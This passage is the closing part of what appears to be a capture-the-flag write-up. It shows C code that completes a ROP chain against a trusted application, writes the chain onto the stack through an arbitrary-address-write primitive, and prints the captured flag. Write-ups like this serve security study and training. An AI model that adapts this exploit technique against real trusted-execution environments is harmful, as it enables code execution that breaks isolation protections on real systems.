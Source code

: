 Return from TA:
```c
  // Return from TA copying input buffer (it's INOUT) with flag back to client
  // Can simply put it's address because we there is no return
  DW(RETURN);                                               // 60
```
The rest of ROP-chain buffer we'll use to store flag storage object key:
```c
  // Use avaliable space to store flag object key
  char flagkey[] = "flag";
  memcpy((uint8_t*)rop + FLAG_KEY_ADDRESS - ROP_ADDRESS,
    flagkey, sizeof(flagkey));
}
```
### pwn3d

Now, we'll put our ROP-chain together with AAW to write it in the stack and execute code right after the `run_code_cmd` function return:
```c
void flag(const char* start)
{
  size_t start_len = strlen(start);
  for (size_t i = 0; i < sizeof(input) - start_len; ++i)
  {
    if (!memcmp(input + i, start, start_len))
    {
      printf("%s\n", input + i);
    }
  }
}

void exploit(void)
{
  init();
  genrop();
  aaw(ROP_ADDRESS, (uint8_t*) rop, sizeof(rop));
  flag("SAS");
}

int main(int argc, char *argv[])
{
  exploit();
}
```
Build it, run remotely and successfully exploit the vulnerability and retrieve the flag:

```
NE_SAS{mi_proebali_nastoyashi_flag_gde_to_pu_puti}
```

![](./assets/fb.png)
